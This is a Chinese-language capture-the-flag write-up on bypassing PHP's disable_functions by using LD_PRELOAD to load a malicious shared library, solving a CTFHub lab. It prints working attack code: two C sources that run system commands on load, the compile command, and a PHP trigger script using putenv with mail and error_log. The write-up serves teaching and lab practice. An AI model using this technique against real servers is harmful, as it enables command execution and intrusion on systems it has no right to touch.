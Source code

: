 ```yaml
---
title: LD_PRELOAD
date: {{ date }}
top: false
cover: false
password:
toc: true
mathjax: true
summary:
tags: [LD_PRELOA,Bypass_disable_function]
categories: LD_PRELOAD
---
```


# LD_PRELOAD

## 目的

- 通过LD_PRELOAD方法绕过disabled_functions限制

## 思路

绕过disabled_functions的四种手法

1. 攻击后端组件，寻找存在命令注入的web应用常用后端组件，如**ImageMagick**的魔图漏洞、**bash**的破壳漏洞等
2. 寻找未禁用的函数，常见命令执行的函数有**system()**、**exec()**、**shell_exec()**、**passthru()**，偏僻的**popen()**、**proc_open()**、**pcntl_exec()**等等，逐一尝试
3. mod_cgi模式，尝试修改.htaccess，调整请求访问路由，绕过php.ini中的任何限制（让特定扩展名的文件直接和php-cgi通信）
4. 利用环境变量**LD_PRELOAD**劫持系统函数，让外部程序加载恶意*.so，达到执行系统命令的效果

此处只详细说明第四种方法。大致步骤如下

- 生成一个自己的恶意动态链接库文件
- 利用**putenv**设置LD_PRELOAD为自己的恶意动态链接库文件的路径
- 配合php的某个函数去触发自己的恶意动态链接库文件
- RCE并获取flag

这里面的某个函数需要在运行的时候能够启动子进程，这样才能重新加载我们所设置的环境变量，从而劫持子进程所调用的库函数。

## 什么是LD_PRELOAD

LD_PRELOAD是linux中的一个环境变量，它可以影响程序运行时的链接（Runtime linker），它允许你定义在程序运行前优先加载的动态链接库。这个功能主要用作有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，我们可以以此功能来使用自己的或者更好的函数（无需别人的源码），而另一方面，我们也可以向别人的程序中注入恶意程序。

## 利用条件

php.ini配置如下：

```php
disable_functions=pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,dl,mail,system
```

- linux系统
- **putenv**未被禁用
- **mail**或**error_log**至少需要有一个未被禁用
- 存在可写目录，需要上传**.so**文件

## 原理

**mail**或**error_log**函数会调用**sendmail**，而**sendmail**会调用**geteuid**函数，所以将其重写覆盖即可达到目的。

## 题目做法

CTFHub中LD_PRELOAD题目环境给了**readflag**文件，即可直接调用

创建**hack.c**文件

```c
#include <stdlib.h>
#include <stdio.h>

void payload() {
	system("/readflag > /tmp/flag");
}

int getuid(){
    if(getenv("LD_PRELOAD") == NULL)
        return 0;
    unsetenv("LD_PRELOAD");
    payload();
}
```

还有一种优化版本

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
__attribute__ ((__constructor__)) void xxx (void){
    unsetenv("LD_PRELOAD");
    system("/readflag > /tmp/flag");
}
```

用`gcc -fPIC -shared hack.c -o hack.so`编译出动态链接库**hack.so**文件

上传到`/tmp/`目录下，一般来说`/tmp/`目录都是有读写权限的

调用脚本：

shell.php

```php
<?php
  putenv("LD_PRELOAD=/tmp/hack.so");
  error_log("a",1);
  mail("a@localhost","","","","");
?>
```

利用 LD_PRELOAD 环境变量, 加载 hack.so, 在 hack.so 中执行命令.

我们可以直接利用 hack.so 反弹 shell, 或者将输出重定向到文件当中

> 参考
>
> [警惕UNIX下的LD_PRELOAD环境变量](https://blog.csdn.net/haoel/article/details/1602108)
>
> [LD_PRELOAD](https://writeup.ctfhub.com/Skill/Web%E8%BF%9B%E9%98%B6/PHP/Bypass-disable-function/74ASRSoQTq8x2VatRWJR7R.html)
>
> [AntSword-Labs](https://github.com/AntSwordProject/AntSword-Labs/tree/master/bypass_disable_functions/1)

